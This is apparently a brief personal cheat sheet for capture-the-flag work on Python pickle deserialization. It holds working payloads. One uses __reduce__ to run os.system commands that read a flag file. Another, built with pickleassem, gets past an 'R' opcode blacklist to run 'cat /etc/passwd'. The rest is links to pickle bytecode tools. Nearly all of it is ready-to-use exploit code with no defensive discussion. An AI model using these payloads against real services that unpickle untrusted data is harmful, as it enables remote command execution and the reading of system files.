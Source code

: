 # Pickle

### The simplest payload
```py
import pickle
import base64


class f:
    def __reduce__(self):
        import os
        return (os.system,("sleep 5 && cat /flag",))

print(f"Payload: {base64.b64encode(pickle.dumps(f()))}")
```

## Blacklist bypasses

### No R opcode

```py
# https://github.com/gousaiyang/pickleassem

import pickle
import pickletools
import base64 

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.util_push('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
print(base64.b64encode(payload))

```

## Convert python scripts into pickle bytecode
https://github.com/splitline/Pickora



I'm a noob so that's all for now
